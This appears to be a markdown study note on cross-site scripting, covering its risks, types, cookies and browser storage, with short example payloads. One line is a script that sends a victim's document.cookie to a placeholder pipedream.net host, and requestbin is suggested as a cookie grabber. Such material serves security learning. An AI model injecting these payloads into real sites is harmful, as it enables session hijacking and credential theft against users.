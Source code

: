 #### 1.1. What is XSS (Cross Site-Scripting)

- client side attack that allows JS code to be executed in the context of the target application on the behalf of a user

- associated risks
	* load malicious JS in the browser on the behalf of the user (authenticated/unauthenticated)
	* inject HTML code in the page to harvest credentials (redirect to fake login page / modify the original page)
	* perform actions related to application functionality (CSRF or CSRF bypass)
	* browser extension can run any JS on any page you visit (parses "evil.com" page containing payload to abuse your browser)
	* run browser exploit to obtain a shell on the underlying OS (JS engine as primary target)
	* [obsolete] run code based on browser plug-in: Silverlight, Flash, Java Applets

- XSS types
	* reflected XSS (payload needs to be in the request and reflected in the response)
	* persistent XSS (stored on the server side; loads in the context of many users who visit the "injected" page)
	* DOM based XSS (we take advantage of the JS code of the app to run our payloads)

- note about cookies/HTTP session
    * most useful for documenting your PoC `document.cookie`
	* HTTP response header will have `Set-Cookie` (e.g. tells the browser to save a session ID)
	* HTTP request header will have `Cookie` (e.g. `PHPSESSID` for authenticated user session)

- access browser storage via JS (may contain app secrets/cookies/JWT):
```js
document.cookie
localStorage
sessionStorage
```

- exfil cookie via JS 
	* `window.location`
	* `document.location`
	* Ajax request (`https://requestbin.com/` as cookie grabber because it allows `Access-Control-Allow-Origin: *` lax CORS policy)
```
<script>var x=new XMLHttpRequest();x.open("GET","https://XXXXXXXXX.x.pipedream.net/LOL?cookie="%2bdocument.cookie);x.send();</script>
```

- smallest XSS payload
```
<body>

<a href="some/x.html">X</a>
<base href=http://t.co>

OR
<a href=http://t.co>Y

OR
<a onclick=alert(1)>Z

</body> 
```

